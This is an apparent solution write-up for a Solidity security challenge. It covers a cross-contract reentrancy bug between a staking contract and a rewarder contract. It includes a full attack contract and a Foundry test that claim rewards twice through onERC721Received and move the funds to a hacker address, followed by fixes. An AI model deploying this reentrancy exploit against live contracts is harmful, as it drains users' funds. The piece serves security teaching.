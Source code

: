 # NotForTrusting Solution

If your solution has to do with `Rewarder::setStaker()`'s access control:
```
require(tx.origin == admin, "you are not the admin");
```
Your answer is wrong. It was a red hearing. Although that is a potential vulnerability, we can assume the admin of the protocol is responsible. Congrats on finidng this bug, but there is a different solution to this challange.


### The real solution
The actual vulnerabilty is a cross contract reentrancey attack. Now a days, most developers are aware of simple reentrancey attacks. In this case, both smart even contracts have a reentrancey guard modifier on every state changing function.

Since the two smart contracts do not share the same state for the reentrancey guard modifier, they are not aware when the other contract is locked. To fix this issue, I recomend that protocols with multiple smart contract should share the state of the reentrancey guard modifer by creating a seperate smart contract that they both read and write to the state of the contract.

The basics of the rentrancey revolves around claiming twice, and taking advantage of an NFT's `safeTransforFrom()` function call to `onERC721Received()` in the receving smart contract. We will go over the affected code in more depth later, but for now let's look into how we perform the exploit.

To exploit the vulenerabilty, we need a seperate smart contract to perform the rentrancey. Let's take a look at my implementations of it:
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.22;

import "../mocks/NFT.sol";
import "../mocks/marqToken.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import { Staking, Rewarder } from "../src/6_NotForTrusting.sol";


contract Attack6 is IERC721Receiver {

    Staking staking;
    Rewarder rewarder;
    NFT nft;
    MarqToken token;
    bool attackMode;


    constructor(address _staking, address _rewarder, address _nft, address _token) {
        staking = Staking(_staking);
        rewarder = Rewarder(_rewarder);
        nft = NFT(_nft);
        token = MarqToken(_token);
    }

    function stake(uint256 _tokenId) external {
        nft.approve(address(staking), _tokenId);
        staking.stake(_tokenId, 100);
    }

    function unstake(uint256 _tokenId) external {
        staking.unstake(_tokenId, true);
    }

    function setAttackMode(bool _mode) external {
        attackMode = _mode;
    }

    function onERC721Received(address, address, uint256, bytes calldata) external returns (bytes4) {
        if(attackMode) {
            rewarder.claim();
        }
        return IERC721Receiver.onERC721Received.selector;
    }

    function pullOutWinnings(uint256 _tokenId) external {
        nft.transferFrom(address(this), msg.sender, _tokenId);
        token.transfer(msg.sender, token.balanceOf(address(this)));
    }

}
```
It's not too complex but here is a break down of what each function does.
- `stake`: Call `Staking` to stake the user's NFT.
- `unstake`: Call `Staking` to unstake the user's NFT
- `onERC721Received`: Neccesary function to receive a NFT for a smart contract. If attack mode is set to true, it calls the claim function again.
- `setAttackMode`: Toggle's attack mode.
- `pullOutWinnings`: Sends the stolen funds to the hacker's address.

Now let's look at what I wrote in the test file:
```
function test_GetThisPassing_6() public {
    address hacker = address(0xBAD);
    
    Attack6 attack = new Attack6(address(staking), address(rewarder), address(nft), address(token));

    vm.startPrank(hacker);
    nft.transferFrom(address(hacker), address(attack), tokenId);
    attack.stake(tokenId);
    attack.setAttackMode(true);
    vm.roll(block.number + 100);
    attack.unstake(tokenId);
    attack.pullOutWinnings(tokenId);
    vm.stopPrank();

    assertGt(token.balanceOf(hacker), 1000 ether);
    assertEq(nft.ownerOf(tokenId), hacker);
}
```
Here are the steps to execute the attack:
1. Send the NFT to the attack contract.
2. Stake the NFT.
3. Set the attack contract in attack mode. Now when it recieves the NFT it knows to claim again.
4. Move the block number.
5. Call unstake. This is when the reentrancey occurs 
6. Pull out the winnings.

Now let's go over why we were able to exploit a reentrancey attack. Although the `lock` modifer does not protect both smart contracts, this attack could of been avoided if the code handled state changes better.

Checks Effects Interactions (CEI) refers to a best practice programming pattern for smart contract development. In short, it refers to updating state varibales before handing of the transaction flow to another smart contract. To read more on CEI [check this article out](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html).

Here is an example of the `Staking` contract's unstake function if it was writtn in best practice:
```
function unstake(uint256 _tokenId, bool claim) external guard {
    require(isStaking[msg.sender], "Stake first");
    StakeData memory userStake = stakeData[msg.sender];
    require(block.number >= userStake.stakeStart + userStake.stakeDuration, "patience is my least favorite virute too");

    if(claim) {
        rewarder.claim(msg.sender);
    }

    // we update the state before transfering the NFT out of the protocol
    isStaking[msg.sender] = false;
    userStake = StakeData(0, 0, 0);

    nft.safeTransferFrom(address(this), msg.sender, _tokenId);
}
```

However, that was not the only issue with this code. `Rewarder`'s `function claim(address _for) external` has an error in it's require statements:
```
function claim(address _for) external guard {
    bool isStaking = staking.isStaking(_for);
    StakeData memory userStake = staking.getStakerData(msg.sender);
    require(msg.sender == address(staking), "not your rewards");
    require(block.number >= userStake.stakeStart + userStake.stakeDuration, "you know about vm.roll(), right?");
    // changed msg.sender to _for
    require(!hasClaimed[_for], "no double dipping");

    // changed msg.sender to _for
    hasClaimed[_for] = true;
    token.mint(1000 ether);
    token.transfer(_for, 1000 ether);
    
}
```

Because the orinigal code is updating and checking `msg.sender` instead of `_for`, this actually blocks `Staking` from claiming again, regardless of the user.

Whenever you see a smart contract hand over flow to an external contract, you maticoulsy check all possible interactions and possibilities of a reentrancey attack.

Bonus Points if you noticed that a user who has not manually claimed and does not set `claim` to true while unstaking will lose out on their rewards.